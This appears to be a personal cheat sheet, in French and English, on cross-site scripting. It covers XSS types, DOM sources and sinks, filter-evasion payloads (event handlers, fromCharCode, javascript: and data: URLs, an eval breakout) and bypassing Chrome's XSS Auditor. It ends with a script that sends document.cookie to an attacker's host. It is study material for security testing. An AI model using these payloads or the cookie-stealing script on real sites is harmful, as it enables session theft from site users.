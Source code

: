 # XSS - Cross-Site Scripting

## Types

### Reflected

L'input de l'utilisateur est envoyé au serveur puis réfléchis sur la page.

### Stored

Pareil sauf que l'input est en plus persisté.

### DOM

L'input est directement inséré dans le DOM \(donc sans passer par le serveur\).

#### Sources \(where the input goes\)

* document.url
* document.referrer
* location
* location.href
* location.search
* location.hash
* location.pathname
* ...

#### Sinks \(where the input ends up\)

* element.innerHTML\(\)
* element.outerHTML\(\)
* eval\(\)
* setTimeout\(\)
* setInterval\(\)
* document.write\(\)
* document.writeln\(\)
* ...

#### Tips & Tricks

Un tag `<script>alert();</script>` inséré via `inner.html` ne sera en fait pas executé. 

Vaut mieux passer par un `<img src="test" onerror="alert(1337)" />`, ou encore plus simple : `<svg onload="alert(1337)">`

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

### Tips

* Start by checking which characters are escaped by using them with a normal string that you can easily find in the result. Also use lists with _burp intruder_.
* Si les `<script>` ne sont pas accepté, utiliser les événements de type `onfocus`, `onload`, etc. Btw you can accumulate function in these event by separating them with `;`.
* `<sCRipt>` tag aren't case sensitive
* If the string tag is accepted but not word like "alert", you can do things like :
  * `eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))`
  * `eval("al"+"ert(1)")`
* Avec le http parameter pollution, s’il est concaténé, on peut aussi faire du xss
* C'est aussi possible de passer par du HTML5/CSS3/SVG
* [https://www.owasp.org/index.php/XSS\_Filter\_Evasion\_Cheat\_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* `javascript:alert(1337)` as url \(form action for example\)
* `data:text/html,<script>alert(0)</script>` in url
* Avec ce code

  ```javascript
  let name = (new URL(location).searchParams.get('name'))
  eval(`var = "bonjour ${name}"`)
  ```

On peut lui donner ce payload : `name="-alert(1337)-"` Mais j'ignore pourquoi les "-" font que ça marche, du coup ce que j'ai fait moi pour pas avoir d'erreur c'est : `name=";alert(1337);tmp="`

* Pour créer une string sans utiliser "" y'a 2 techniques :
  * eval du regex : `eval(/alert(1337)/.source())`
  * tostring un nombre avec une base : `17795081..toString(36)` \(j'ignore pourquoi le second `.` est obligatoire\)
* Break out of html comment : Si `<?php>` \(ou `<?>` car c'est son raccourci\) sont présent dans la réponse html, les navigateurs vont transformer ça en `<!--php-->` car ils ne veulent pas que du code serveur se retrouve accidentellement sur le client. Hors, les commentaires imbriqués n'existant pas en html, si on fait ça à l'intérieur d'un commentaire, ça va le terminer prématurément.
* https can be in all caps \(HTTPS\)
* `google.com/jsapi?callback=alert` can be used to received a function in a callback

## XSS Auditor

* Il existe sur Chrome, pas sur firefox et je sais pas pour les autres
* Il risque de bientôt disparaître car il amène des vulnérabilités et permet aux devs de moins faire attention/moins corriger leurs failles XSS
* L’auditeur permet de remarquer des injections XSS. Pour cela, il compare ce qui est passé dans l’url aux scripts de la page \(très gros résumé\).
* Du coup, si on injecte le même script qu’un existant déjà dans la page, l’auditeur va le disable, pensant qu’il vient de nous, ce qui peut nous permettre d’ensuite faire d’autre choses

## Get a cookie with that

By example by injection this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* Misc research

